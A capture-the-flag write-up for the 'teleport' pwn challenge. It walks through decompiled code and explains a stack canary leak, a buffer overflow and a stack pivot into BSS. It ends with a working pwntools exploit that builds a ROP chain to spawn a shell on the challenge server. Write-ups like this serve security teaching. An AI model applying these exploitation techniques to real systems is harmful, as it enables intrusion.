



## digital circuit

```
Author: zran

Hi, I'm back again. Should be easier this time around. (just an extra pwn chall since there's still a lot of time left)

nc ctf.tcp1p.com 1470
```
**Attachment**: [teleport](release/teleport)

We were given an ELF binary. Here's some information about the binary.
  

<details close><summary>Decompiled Binary</summary>
    
```c
__int64 init()
{
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  return setvbuf(stderr, 0LL, 2LL, 0LL);
}

unsigned __int64 __fastcall cool_thing3(__int64 a1, int a2, int a3, int a4, int a5, int a6)
{
  int v6; // ecx
  int v7; // er8
  int v8; // er9
  int v9; // edx
  int v10; // ecx
  int v11; // er8
  int v12; // er9
  double v14; // [rsp+0h] [rbp-20h] BYREF
  double v15; // [rsp+8h] [rbp-18h] BYREF
  char v16[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v17; // [rsp+18h] [rbp-8h]

  v17 = __readfsqword(0x28u);
  printf((unsigned int)"\nGive me one final pair of special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%lf %lf", (unsigned int)&v14, (unsigned int)&v15, v6, v7, v8);
  if ( v14 == v15 )
  {
    puts("Different numbers please!");
  }
  else if ( LODWORD(v14) == LODWORD(v15) )
  {
    puts("\nHorray! Here's a present for you, if you need it...");
    printf((unsigned int)"%ld\n", v17, v9, v10, v11, v12);
    read(0LL, v16, 25LL);
  }
  else
  {
    puts("Wrong!");
  }
  return v17 - __readfsqword(0x28u);
}

unsigned __int64 __fastcall cool_thing2(__int64 a1, int a2, int a3, int a4, int a5, int a6)
{
  int v6; // ecx
  int v7; // er8
  int v8; // er9
  int v9; // ecx
  int v10; // er8
  int v11; // er9
  __int64 v13; // [rsp+0h] [rbp-40h] BYREF
  __int64 v14; // [rsp+8h] [rbp-38h] BYREF
  char v15[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v16; // [rsp+38h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  printf((unsigned int)"\nGive me another two special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%ld %ld", (unsigned int)&v13, (unsigned int)&v14, v6, v7, v8);
  if ( v13 == v14 )
  {
    puts("Different numbers please!");
  }
  else if ( (float)(int)v13 == *(float *)&v14 )
  {
    cool_thing3((__int64)"%ld %ld", (int)&v13, v13, v9, v10, v11);
    puts("\nWell done hero! What's your name?");
    read(0LL, v15, 64LL);
  }
  else
  {
    puts("Wrong!");
  }
  return v16 - __readfsqword(0x28u);
}

unsigned __int64 __fastcall cool_thing1(__int64 a1, int a2, int a3, int a4, int a5, int a6)
{
  int v6; // ecx
  int v7; // er8
  int v8; // er9
  int v9; // edx
  int v10; // ecx
  int v11; // er8
  int v12; // er9
  unsigned __int64 v14; // [rsp+8h] [rbp-18h] BYREF
  unsigned __int64 v15; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v16; // [rsp+18h] [rbp-8h]

  v16 = __readfsqword(0x28u);
  printf((unsigned int)"Give me two special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%lu %lu", (unsigned int)&v14, (unsigned int)&v15, v6, v7, v8);
  if ( v14 == v15 )
  {
    puts("Different numbers please!");
  }
  else if ( v14 >= 0x80000000 && v15 >= 0x80000000 )
  {
    if ( (_DWORD)v14 == (_DWORD)v15 )
    {
      puts("\nCongrats! Can you explain what's happening here?");
      read(0LL, &anu, 16LL);
      cool_thing2(0LL, (int)&anu, v9, v10, v11, v12);
    }
    else
    {
      puts("Wrong!");
    }
  }
  else
  {
    puts("Too small!");
  }
  return v16 - __readfsqword(0x28u);
}
```
</details>

The program performs a series of tasks, involving user inputs and value comparisons. The program calls the `cool_thing1()` function, prompting the user to input two different numbers with the same 2-byte (DWORD) value. If the condition is met, the program asks the user to input data with a maximum limit of 16 bytes, which is stored in the global variable `anu`.
```c
  printf((unsigned int)"Give me two special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%lu %lu", (unsigned int)&v14, (unsigned int)&v15, v6, v7, v8);
  if ( v14 == v15 )
  {
    puts("Different numbers please!");
  }
  else if ( v14 >= 0x80000000 && v15 >= 0x80000000 )
  {
    if ( (_DWORD)v14 == (_DWORD)v15 )
    {
      puts("\nCongrats! Can you explain what's happening here?");
      read(0LL, &anu, 16LL);
      cool_thing2(0LL, (int)&anu, v9, v10, v11, v12);
    }
    ... SNIPPED ...
```


Subsequently, the program moves on to the `cool_thing2()` function, repeating the user input request for two different numbers. However, in this case, the requirement is for these numbers to have the same value when converted to float. If this condition is satisfied, the program proceeds to the `cool_thing3()` function. Afterward, the program prompts the user to enter data with a maximum limit of 64 bytes. Due to the discrepancy in the allowed data size (64 bytes) and the capacity of the variable v15 (which can only hold 40 bytes), this creates a Buffer Overflow vulnerability. However, the presence of a stack canary prevents us from executing Return-Oriented Programming (ROP) attacks at the moment. 
```c
  printf((unsigned int)"\nGive me another two special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%ld %ld", (unsigned int)&v13, (unsigned int)&v14, v6, v7, v8);
  if ( v13 == v14 )
  {
    puts("Different numbers please!");
  }
  else if ( (float)(int)v13 == *(float *)&v14 )
  {
    cool_thing3((__int64)"%ld %ld", (int)&v13, v13, v9, v10, v11);
    puts("\nWell done hero! What's your name?");
    read(0LL, v15, 64LL); <-- VULN Buffer Overflow
  }
  ... SNIPPED ...
```

Let's take a closer look at the cool_thing3() function. In the cool_thing3() function, the program asks the user for two different decimal numbers that have the same 4-byte (DWORD) value. If the user complies with this condition, the program leaks the value of the stack canary, a security mechanism designed to detect buffer overflows. Following this, the program requests the user to input data with a maximum limit of 25 bytes, which is stored in the variable `v16."

```c
  double v14; // [rsp+0h] [rbp-20h] BYREF
  double v15; // [rsp+8h] [rbp-18h] BYREF
  char v16[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v17; // [rsp+18h] [rbp-8h]

  v17 = __readfsqword(0x28u);
  printf((unsigned int)"\nGive me one final pair of special numbers:\n> ", a2, a3, a4, a5, a6);
  _isoc99_scanf((unsigned int)"%lf %lf", (unsigned int)&v14, (unsigned int)&v15, v6, v7, v8);
  if ( v14 == v15 )
  {
    puts("Different numbers please!");
  }
  else if ( LODWORD(v14) == LODWORD(v15) )
  {
    puts("\nHorray! Here's a present for you, if you need it...");
    printf((unsigned int)"%ld\n", v17, v9, v10, v11, v12);
    read(0LL, v16, 25LL); <-- Buffer Overflow Vuln
  }
  ... SNIPPED ...
```

As previously mentioned, there is a Buffer Overflow vulnerability in the `cool_thing2()` function. However, we can only overwrite 8 bytes after the saved RIP is stored. 

<center>

</center>

Therefore, I used the Stack Pivoting technique to save a longer ROP payload in the BSS segment, allowing for more extensive manipulation of the program's execution flow. This technique involves manipulating the stack pointer and redirecting it to a location where the longer payload is stored, thus achieving more control over the program's behavior.
Below are the instructions that I used to store the ROP payload in the BSS segment:
```c
.text:0000000000401D23                 lea     rax, [rbp-0x30] <-- cool_thing+0xb6
.text:0000000000401D27                 mov     edx, 0x40
.text:0000000000401D2C                 mov     rsi, rax
.text:0000000000401D2F                 mov     edi, 0
.text:0000000000401D34                 call    read
...
```

Since we can overwrite also overwrite the RBP, we doesn't need to use gadget to set the rbp register like `pop rbp` anymore. Indeed, in the `cool_thing1()` function, we can input 16 bytes of data into the global variable anu, which is stored in the BSS segment. This presents an opportunity to save a new BSS address that can be used as the target for storing the ROP payload. Additionally, it can be used to store instructions for operations such as `lea rax, [rbp-0x30]; mov edx ; ... ; call read` to create a ROP payload. I decided to create a ROP to call `read(0, &anu, ...)` which will be used to save my ROP payload to spawn shell by calling `sys_execve('/bin/sh', NULL, NULL)`.

Here's my exploit to solve this challenge.

<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/teleport"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 1470
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *cool_thing2+0x70
            b *cool_thing2+0xc7
            b *cool_thing2+225
            """
            gdb.attach(io, gdbscript=cmd)

    POP_RAX_RDX_RBX = 0x00000000004a3dca # : pop rax ; pop rdx ; pop rbx ; ret
    POP_RDX_RBX = 0x00000000004accc0 # : pop rdx ; pop rbx ; ret
    POP_RDI = 0x000000000040251f # : pop rdi ; ret
    POP_RSI = 0x000000000040a58e # : pop rsi ; ret
    LEAVE_RET = 0x0000000000401c6b # : leave ; ret
    SYSCALL_RET = 0x422ea6 

    # cool_things1
    io.sendlineafter(b"> ", f"{0xFFFF_FFFF_deadbeef} {0xFEFF_FFFF_deadbeef}".encode())

    """
    .text:0000000000401D23                 lea     rax, [rbp-0x30] <-- cool_thing+0xb6
    .text:0000000000401D27                 mov     edx, 0x40
    .text:0000000000401D2C                 mov     rsi, rax
    .text:0000000000401D2F                 mov     edi, 0
    .text:0000000000401D34                 call    read
    """
    p = b""
    p += p64(elf.symbols["anu"]+0x38) # will be pointing to our saved RIP (after stack pivoting)
    p += p64(elf.symbols["cool_thing2"]+0xb6)
    io.sendafter(b"?\n", p)
    
    # cool_things2
    io.sendlineafter(b"> ", f"{0xffff_ffff} {0xbf80_0000}".encode())
    
    # cool_things3
    io.sendlineafter(b"> ", f"{0.1} {0.2}".encode())

    io.recvuntil(b"need it...\n")
    STACK_CANARY = int(io.recvuntil(b"\n", drop=True).decode()) & 0xFF_FF_FF_FF_FF_FF_FF_FF
    print("STACK_CANARY                 :", hex(STACK_CANARY), STACK_CANARY )
    p = b""
    p += b"A"*8
    io.send(p)
    sleep(0.1)

    p = b""
    p += b"A"*0x28
    p += p64(STACK_CANARY)
    p += p64(elf.symbols["anu"])
    p += p64(LEAVE_RET)
    io.sendafter(b"?\n", p)

    # Register overview before executing this ROP
    # $rax = 0x40
    # $rdi = 0
    # $rsi = &anu+8
    # $rdx = &anu+8
    p = b""
    p += p64(POP_RAX_RDX_RBX) # rip
    p += p64(0) 
    p += p64(0x300)
    p += p64(0)
    p += p64(SYSCALL_RET)
    p = p.ljust(64, b"A")
    # Register overview after executing this ROP
    # $rax = 0
    # $rdi = 0
    # $rsi = &anu+8
    # $rdx = 0x300
    io.send(p) # sys_read(0, &anu+8, 0x300)

    sleep(1)

    # sys_execve('/bin/sh', NULL, NULL)
    p = b""
    p += b"/bin/sh\x00" # anu+8
    p += p64(SYSCALL_RET+2)*50 # retsled: "syscall; ret;" +2 == "ret"
    p += p64(POP_RAX_RDX_RBX)
    p += p64(0x3b)
    p += p64(0)
    p += p64(0)
    p += p64(POP_RDI)
    p += p64(elf.symbols["anu"]+8) # "/bin/sh"
    p += p64(POP_RSI)
    p += p64(0)
    p += p64(SYSCALL_RET)
    io.send(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

  

    
**Flag:** TCP1P{ju5T_4n0tH3r_p1vOt_ch4LlEn9e}